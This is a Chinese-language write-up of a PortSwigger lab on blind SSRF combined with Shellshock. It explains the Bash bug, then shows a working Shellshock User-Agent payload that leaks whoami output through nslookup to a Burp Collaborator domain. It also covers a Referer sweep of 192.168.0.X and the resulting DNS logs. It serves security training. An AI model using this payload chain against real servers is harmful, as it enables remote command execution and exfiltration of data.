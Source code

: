 ```yaml
---
layout: post
title: "Blind SSRF with Shellshock exploitation"
description: ""
date: 2023-07-11
categories:
  - PortSwigger_Lab
  - PortSwigger_SSRF
author: ""
tags: ['PortSwigger_Lab', 'SSRF']
---
```






# Blind SSRF with Shellshock exploitation

教學
https://chowdera.com/2021/10/20211024023404011T.html

https://www.gushiciku.cn/pl/pno2/zh-tw

優先閱讀
https://blog.csdn.net/weixin_43263451/article/details/120624292


shellshock 簡單知識
https://www.796t.com/article.php?id=195292



```

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a [blind SSRF](https://portswigger.net/web-security/ssrf/blind) attack against an internal server in the `192.168.0.X` range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

#### Note

To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.




該站點使用分析軟件，該軟件在加載產品頁面時獲取Referer 標頭中指定的URL。

為了解決實驗室問題，使用此功能對 192.168.0.X 範圍內的內部服務器的 8080 端口執行盲 SSRF 攻擊。在盲攻擊中，對內部服務器使用 Shellshock 有效負載以洩露操作系統的名稱 用戶。
筆記

為了防止 Academy 平台被用於攻擊第三方，我們的防火牆阻止了實驗室與任意外部系統之間的交互。 要解決實驗室，您必須使用 Burp Collaborator 的默認公共服務器。





```


這題:
間單來說就是 使用 BP 外掛 collaborator everywhere 

找到目標網站，選擇target -> add to scope  ( 確認有打勾 )

接著這個網站所有 http 表頭都會被換成不同的 黑客dns 網址。

只要該網站有把其中一個表頭拿去請求，dns log 伺服器就會記錄下來。

回到sitemap 中得 issue 欄位可以看到 collaborator everywhere 所記錄到的訊息。

這題，可以看到 ssrf 的地方有  UA 和 Refer 

根據題目所說，shell shock payload 放在UA 的原因是:

```
HTTP协议的头User-Agent通常是保存在环境变量HTTP_USER_AGENT的

shellshock的payload：() { :; }; /usr/bin/nslookup whoami.YOUR-SUBDOMAIN-HERE.burpcollaborator.net

YOUR-SUBDOMAIN-HERE就是刚才Burp Collaborator client生成的域名，该payload可以将whoami的信息带外出来
————————————————
版权声明：本文为CSDN博主「浔阳江头夜送客丶」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_43263451/article/details/120624292


```

```

Bash 4.3以及之前的版本在处理某些特殊构造的环境变量时存在安全漏洞，向函数环境变量值后添加多余的字符串会触发此漏洞，攻击者可利用此漏洞改变或绕过环境限制，以执行任意的shell命令,甚至完全控制目标系统

受到该漏洞影响的bash使用的环境变量是通过函数名称来调用的，以“(){”开头通过环境变量来定义的。而bash在处理这样的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令

比如下面先定义了个特殊构造的“函数环境变量”（正确定义函数变量应该是foo='(){函数代码};'），然后执行bash后就会自动执行foo环境变量函数后面那块
————————————————
版权声明：本文为CSDN博主「浔阳江头夜送客丶」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_43263451/article/details/120624292

```





shellshock payload 格式 payload 功能 會帶出主機名
```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN
```


burp collaborator client 生成一個  dns server 網址
```
v51jmmpv3y90trs3g8os1bh4avgl4a.burpcollaborator.net
```


替換User-Agent::
```
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).v51jmmpv3y90trs3g8os1bh4avgl4a.burpcollaborator.net
```


refer 頭使用 intuder 爆破。1-255
```
Refer: http://192.168.0.X
```



爆破完後，可以去 burp collaborator client  查看 dns log有兩筆
```
The Collaborator server received a DNS lookup of type A for the domain name 

peter-g5lhod.v51jmmpv3y90trs3g8os1bh4avgl4a.burpcollaborator.net.  

The lookup was received from IP address 3.251.95.143 at 2022-10.-11 04:35:04 UTC.

```

```
The Collaborator server received a DNS lookup of type A for the domain name 

peter-g5lhod.v51jmmpv3y90trs3g8os1bh4avgl4a.burpcollaborator.net.  The lookup was 

received from IP address 3.248.186.35 at 2022-10.-11 04:35:04 UTC.
```

有兩筆的原因可能是 類似於 cmd ping 127.0.0.1 會有四次封包，而這邊送出了2次


如果還想確認內網主機是哪一台 192.168.0.x 可能要再 payload 功能改成顯示出 ifconfig 之類的訊息


主機名 
```
peter-g5lhod
```


提交就會成功

